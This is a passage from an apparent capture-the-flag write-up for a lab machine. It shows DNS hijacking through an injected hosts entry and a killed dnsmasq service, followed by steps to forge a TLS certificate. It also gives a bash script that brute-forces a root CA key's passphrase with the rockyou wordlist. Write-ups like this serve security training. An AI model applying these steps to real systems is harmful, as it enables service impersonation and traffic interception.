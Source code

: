 Let's get to in.

```bash
user@7bfb70ee5b9c:/dns$ echo "10.10.14.10 gg.sorcery.htb" >> /dns/hosts-user
user@7bfb70ee5b9c:/dns$ bash convert.sh
user@7bfb70ee5b9c:/dns$ pkill -9 dnsmasq
```

### Forge Certificate
First let's generate a certificate for `match.sorcery.htb`.

```bash
└─$ openssl genrsa -out match.sorcery.htb.key 2048
```

And then generate a certificate signing request.

```bash
└─$ openssl req -new -key match.sorcery.htb.key -out match.sorcery.htb.csr -subj "/CN=match.sorcery.htb"
```

Then we will sign the certificate with the root CA. <br>
> We need to remove the passphrase from the root CA key.

When running, does not know the passphrase so I enter random and it got this problem.

```bash
└─$ openssl rsa -in RootCA.key -out RootCA-unenc.key
Enter pass phrase for RootCA.key:
Could not find private key from RootCA.key
40F733F8057F0000:error:1C800064:Provider routines:ossl_cipher_unpadblock:bad decrypt:../providers/implementations/ciphers/ciphercommon_block.c:107:
40F733F8057F0000:error:11800074:PKCS12 routines:PKCS12_pbe_crypt_ex:pkcs12 cipherfinal error:../crypto/pkcs12/p12_decr.c:92:maybe wrong password
```

```bash
└─$ file RootCA.key 
RootCA.key: OpenSSH private key (with password)
```

So we gonna create a bash script to bruteforce the passphrase.

```bash
└─$ cat crack.sh                   
#!/bin/bash
while IFS= read -r pass; do
    openssl rsa -in RootCA.key -out /dev/null -passin pass:"$pass" 2>/dev/null && { echo "Password found: $pass"; exit 0; }
done < /usr/share/wordlists/rockyou.txt
```

```bash
└─$ ./crack.sh                                               
Password found: password
```

Got the passphrase. Now we can previous command again.
